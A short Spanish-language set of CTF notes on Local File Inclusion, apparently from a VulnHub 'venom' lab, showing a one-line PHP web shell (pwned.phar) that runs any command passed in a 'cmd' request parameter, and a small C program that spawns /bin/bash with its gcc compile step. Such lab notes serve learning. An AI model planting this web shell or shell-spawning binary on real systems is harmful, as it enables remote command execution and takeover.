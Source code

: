 # LOCAL FILE INCLUSION LFI
---
## CREACIÓN PHP LFI .phar
Como se ha dicho al principio, el LFI ocurre cuando mediante un campo de entrada se está llamando a la ruta de un archivo local. Típicamente, esta situación la veremos en variables de PHP, pero no hay que limitar la vulnerabilidad a esto porque sería erróneo
```ruby
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/venom/exploits]
└─$ cat pwned.phar        
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.phar
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   3   │ ?>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
## CREACIÓN EXPLOIT LENGUAJE C

para crear un exploit de lenguaje c, se crear un archivo con la extensión .c y acontinuacion lo siguiente:
```ruby
#include <stdio.h>
#include <stdlib.h>
int main(void){
        system("/bin/bash");
        return 0;
}
```
Una vez creado el archivo se debe compilar para transformarlo en binario.
```ruby
gcc exploit.c -o binarioexploit
```